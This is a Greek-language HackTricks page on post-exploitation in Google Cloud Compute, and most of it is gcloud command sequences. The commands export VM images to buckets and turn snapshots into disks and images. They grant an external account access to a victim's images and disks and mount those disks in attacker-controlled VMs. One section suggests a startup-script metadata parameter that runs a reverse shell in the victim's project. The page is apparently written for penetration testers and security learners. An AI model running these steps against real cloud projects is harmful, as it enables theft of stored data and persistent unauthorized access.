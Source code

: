 # GCP - Compute Post Exploitation

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (Networking) ελέγξτε:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Εξαγωγή & Επιθεώρηση Εικόνων τοπικά

Αυτό θα επιτρέπει σε έναν επιτιθέμενο να **έχει πρόσβαση στα δεδομένα που περιέχονται σε ήδη υπάρχουσες εικόνες** ή να **δημιουργήσει νέες εικόνες εκτελούμενων VMs** και να έχει πρόσβαση στα δεδομένα τους χωρίς να έχει πρόσβαση στο εκτελούμενο VM.

Είναι δυνατόν να εξαχθεί μια εικόνα VM σε ένα bucket και στη συνέχεια να την κατεβάσετε και να την προσαρτήσετε τοπικά με την εντολή:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Για να εκτελεστεί αυτή η ενέργεια, ο επιτιθέμενος μπορεί να χρειαστεί δικαιώματα πάνω στον αποθηκευτικό κάδο και σίγουρα **δικαιώματα πάνω στο cloudbuild** καθώς είναι το **service** που θα ζητηθεί να εκτελέσει την εξαγωγή.\
Επιπλέον, για να λειτουργήσει αυτό, ο λογαριασμός cloudbuild SA και ο λογαριασμός compute SA χρειάζονται προνομιούχες άδειες.\
Ο λογαριασμός cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` χρειάζεται:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Και ο λογαριασμός SA `<project-id>-compute@developer.gserviceaccount.com` χρειάζεται:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Εξαγωγή και επιθεώρηση Snapshots & Disks τοπικά

Δεν είναι δυνατή η άμεση εξαγωγή snapshots και δίσκων, αλλά είναι δυνατό να **μετατραπεί ένα snapshot σε έναν δίσκο, ένας δίσκος σε μια εικόνα** και ακολουθώντας την **προηγούμενη ενότητα**, να εξαχθεί αυτή η εικόνα για επιθεώρηση τοπικά.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Επιθεώρηση ενός εικόνας δημιουργώντας ένα VM

Με σκοπό την πρόσβαση στα **δεδομένα που αποθηκεύονται σε μια εικόνα** ή μέσα σε ένα **εκτελούμενο VM** από όπου ένας επιτιθέμενος **έχει δημιουργήσει μια εικόνα**, είναι δυνατό να παραχωρηθεί πρόσβαση σε έναν εξωτερικό λογαριασμό πάνω στην εικόνα:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```

και στη συνέχεια δημιουργήστε ένα νέο VM από αυτό:

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

Εάν δεν μπορείτε να δώσετε πρόσβαση στον εξωτερικό σας λογαριασμό στην εικόνα, μπορείτε να ξεκινήσετε έναν εικονικό υπολογιστή (VM) χρησιμοποιώντας αυτήν την εικόνα στο έργο του θύματος και να κάνετε τα μεταδεδομένα να εκτελέσουν ένα αντίστροφο κέλυφος (reverse shell) για να αποκτήσετε πρόσβαση στην εικόνα προσθέτοντας την παράμετρο:

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

### Επιθεώρηση ενός Snapshot/Disk προσαρτώντας το σε ένα VM

Με σκοπό την πρόσβαση στα **δεδομένα που αποθηκεύονται σε ένα δίσκο ή ένα snapshot, μπορείτε να μετατρέψετε το snapshot σε δίσκο, τον δίσκο σε εικόνα και να ακολουθήσετε τα προηγούμενα βήματα.**

Ή μπορείτε να **χορηγήσετε πρόσβαση σε έναν εξωτερικό λογαριασμό** στον δίσκο (αν η αρχική κατάσταση είναι ένα snapshot, χορηγήστε πρόσβαση στο snapshot ή δημιουργήστε έναν δίσκο από αυτόν):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**Συνδέστε το δίσκο** σε μια εικονική μηχανή:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

Τοποθετήστε το δίσκο μέσα στην εικονική μηχανή (VM):

1. **Συνδεθείτε με SSH στην VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2. **Αναγνωρίστε τον δίσκο**: Μόλις βρεθείτε μέσα στην VM, αναγνωρίστε τον νέο δίσκο από τη λίστα των συσκευών δίσκου. Συνήθως, μπορείτε να τον βρείτε ως `/dev/sdb`, `/dev/sdc`, κλπ.
3. **Μορφοποιήστε και τοποθετήστε τον δίσκο** (αν είναι νέος ή ακατέργαστος δίσκος):

* Δημιουργήστε ένα σημείο προσάρτησης:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

* Προσαρτήστε τον δίσκο:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Εάν **δεν μπορείτε να δώσετε πρόσβαση σε ένα εξωτερικό έργο** στο αντίγραφο ασφαλείας ή τον δίσκο, μπορεί να χρειαστεί να εκτελέσετε αυτές τις ενέργειες μέσα σε μια εικονική μηχανή στο ίδιο έργο με το αντίγραφο ασφαλείας/δίσκο.
